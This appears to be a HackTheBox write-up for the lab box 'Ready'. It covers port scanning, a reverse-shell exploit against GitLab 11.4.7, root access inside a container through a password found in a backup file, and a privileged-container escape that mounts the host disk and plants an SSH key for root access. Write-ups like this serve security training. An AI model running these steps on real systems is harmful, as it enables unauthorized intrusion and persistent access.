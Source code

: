 ```yaml
---
featureImage: images/ready_logo.png
summary: ""
author:
  - paul-knight
date: 2021-05-22
toc: true
thumbnail: images/ready_logo.png
codeMaxLines: 10
series:
  - htb
title: HTB Writeup - Ready
description: ""
usePageBundles: true
shareImage: images/ready_logo.png
tags:
  - HackTheBox
  - CTF
categories:
  - Education & Training
aliases:
  - Ready
---
```



Ready was a pretty straighforward box to get an initial shell on: We identify that's it running a vulnerable instance of Gitlab and we use an exploit against version 11.4.7 to land a shell. Once inside, we quickly figure out we're in a container and by looking at the docker compose file we can see the container is running in privileged mode. We then mount the host filesystem within the container then we can access the flag or add our SSH keys to the host root user home directory.

## Portscan

```
sudo nmap -T4 -sC -sV -oA scan -p- 10.129.149.31
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 22:41 EDT
Nmap scan report for 10.129.149.31
Host is up (0.015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.149.31:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Gitlab

The webserver on port 5080 runs a Gitlab instance.

{{< image src="image/gitlab1.png" >}}

We have access to create a new account.

{{< image src="image/gitlab2.png" >}}

Once logged in, we see in the projects list there's a single projet called *ready-channel*.

{{< image src="image/gitlab3.png" >}}

To check the Gitlab version we go to the Help section and we can see it's running 11.4.7.

{{< image src="image/gitlab5.png" >}}

A quick search on Exploit-DB shows there's an authenticated remote code execution vulnerability for this exact version.

{{< image src="image/gitlab6.png" >}}

`python3 exploit.py -g http://10.129.149.31 -u snowscan2 -p yolo1234 -l 10.10.14.4 -P 4444`

Reverse shell connection:

{{< image src="image/shell.png" >}}

{{< image src="image/user.png" >}}

## Privesc

By running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find a backup file with some SMTP credentials for the gitlab application. 

```
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside the container.

```
git@gitlab:/opt/backup$ su -l root
su -l root
Password: wW59U!ZKMbG9+*#h

root@gitlab:~# 
```

There's a root_pass file in the root of the filesystem but that's not useful.

```
cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```

If we look at the `/opt/backup/docker-compose.yml` configuration file, we can see it's a hint that we're running in a privileged container:

```
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m
```

Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.

{{< image src="image/root.png" >}}

To get a proper shell in the host OS we can drop our SSH keys in the root's .ssh directory.

```
root@gitlab:~# mount /dev/sda2 /mnt
mount /dev/sda2 /mnt
root@gitlab:~# echo 'ssh-rsa AAAAB3NzaC1y[...]+HUBS+l32faXPc= snowscan@kali' > /mnt/root/.ssh/authorized_keys

[...]

$ ssh root@10.129.150.37
The authenticity of host '10.129.150.37 (10.129.150.37)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.150.37' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

[...]

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 11 14:28:18 2021
root@ready:~# cat root.txt
b7f98681505cd39066f67147b103c2b3
```